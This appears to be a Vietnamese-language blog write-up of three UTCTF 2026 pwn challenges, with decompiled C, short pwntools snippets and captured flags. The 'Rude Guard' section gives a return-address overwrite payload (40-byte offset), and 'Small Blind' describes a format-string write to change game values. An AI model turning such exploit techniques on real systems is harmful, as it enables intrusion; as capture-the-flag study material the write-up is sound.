








+++
title = 'UTCTF 2026'
date = 2026-03-13T20:15:02+07:00
draft = false
categories = ["ctf"]
+++

## Hour of Joy



```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-54h] BYREF
  char s[76]; // [rsp+10h] [rbp-50h] BYREF
  int v6; // [rsp+5Ch] [rbp-4h]

  setup();
  v6 = 0xDEADBEEF;
  printf("What is your name? ");
  fgets(s, 64, stdin);
  s[strcspn(s, "\n")] = 0;
  printf("Hello, ");
  printf(s);
  puts("!");
  printf("Enter the secret code: ");
  __isoc99_scanf("%u", &v4);
  if ( v4 == v6 )
    print_flag();
  else
    puts("Wrong! Nice try.");
  return 0;
}
```

Như vậy chỉ cần nhập input sao cho `v4 = v6 = 0xDEADBEEF` là sẽ có flag.

```py
sla(b'? ', b'duc')
slna(b'code: ', 3735928559)
```

Vì `scanf` với `%u` nên ta phải nhập đầu vào là số nguyên không âm.

```bash
(pwn) ➜ lwd3c@Lenovo-LOQ-15IRH8  ~/Desktop/CTF/2026/UTCTF/Hour_of_Joy  ./exploit.py       
[<] Starting local process '/home/lwd3c/Desktop/CTF/2026/UTCTF/Hour_of_Joy/vuln'[+] d 19056
[*] Switching to interactive mode
[*] Process '/home/lwd3c/Desktop/CTF/2026/UTCTF/Hour_of_Joy/vuln' stopped with exit code 0 (pid 19056)
utflag{f0rm4t_str1ng_l34k3d}
[*] Got EOF while reading in interactive
$  
```

`FLAG: utflag{f0rm4t_str1ng_l34k3d}`

--- 

## Rude Guard



```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  if ( argc == 1 )
  {
    puts("Are you not going to say hello?");
    return 0;
  }
  else
  {
    if ( atoi(argv[1]) == 1701604463 )
    {
      puts("Hi. What do you want.");
      read_input(0);
    }
    else
    {
      puts("Hi. Go away.");
    }
    return 0;
  }
}

__int64 __fastcall read_input(int a1)
{
  char buf[32]; // [rsp+10h] [rbp-20h] BYREF

  read(a1, buf, 0x64u);
  if ( !strcmp(buf, "givemeflag\n") )
    puts("How rude! utflag{you're going to need a sneakier way in...}");
  else
    puts("I won't let you pass. No matter what.");
  return 0;
}

__int64 secret_function()
{
  _QWORD v1[3]; // [rsp+0h] [rbp-40h]
  _QWORD v2[3]; // [rsp+18h] [rbp-28h]
  int v3; // [rsp+34h] [rbp-Ch]
  char v4; // [rsp+3Bh] [rbp-5h]
  int i; // [rsp+3Ch] [rbp-4h]

  v4 = 50;
  v1[0] = 0x554955535E544647LL;
  v1[1] = 0x4106456D56400647LL;
  v1[2] = 0x6D4057590601456DLL;
  v2[0] = 0x466D5B6D5C065A46LL;
  *(_QWORD *)((char *)v2 + 7) = 0x4F465A5547025A46LL;
  v3 = 39;
  for ( i = 0; i < v3; ++i )
    putchar((unsigned __int8)v4 ^ *((_BYTE *)v1 + i));
  return 0;
}
```

Đề bài yêu cầu chạy chương trình với tham số là `1701604463`. Nếu không chương trình sẽ thoát ngay lập tức. 

Sau đó tại hàm `read_input` có lỗi `buffer overflow` tại hàm `read`. Đồng thời so sánh biến `buf` với 1 chuỗi tuy nhiên điều này không quan trọng.

Ta chỉ cần overwrite `ret` của hàm `read_input` thành hàm `secret_function`. Tại hàm `secret_function` sẽ cho ta flag.

Ta tính được `offset = 40`.

```py
payload = b"A"*40 
payload += p64(exe.sym.secret_function)
sla(b'want.\n', payload)
```

Tuy nhiên khi chạy thì chương trình sẽ mắc lỗi `SIGSEGV` và không in ra flag, nhưng khi để ý ở thanh ghi `rsi` ta thấy flag xuất hiện.



`FLAG: utflag{gu4rd_w4s_w34ker_th4n_i_th0ught}`

--- 

## Small Blind



Đây là dạng bài không cho binary nên ta không thể dịch ngược lại được source code. Ta chỉ có thể guessing :))

Dễ thấy có lỗi `format string` khi nhập `name`, cho phép ta leak được thông tin từ thanh ghi và stack.

Theo yêu cầu đề bài thì ta cần chơi game đến khi nào `Your chips` đạt được ở 1 mức nào đó thì ta sẽ win và có được flag.

Vì có lỗi `format string` nên ta nghĩ ngay sẽ overwrite biến `Your chips` thành 1 số lớn để win mà không cần phải chơi.



Đầu tiên leak thông tin từ các thanh ghi và stack, ta thấy tại từ  vị trí thứ 6 (đỉnh stack) có các địa chỉ gần giống nhau, ta có thể đoán nó có thể là địa chỉ của stack hoặc gì đó nên ta thử overwrite giá trị tại đó xem chương trình có thay đổi gì không.



Bum !!! Ngay khi thử overwrite giá trị tại địa chỉ thứ 6 ta thấy chương trình đã có sự thay đổi, 
`Dealer chips` đã thành 5000 thay vì 500 như ban đầu.

Ta thử tiếp giá trị thứ 7 và ... BUM !!!



`Your chips` đã thành 5000, giờ là auto win rồi, chỉ cần thoát game là xong.



`FLAG: utflag{counting_chars_not_cards}`
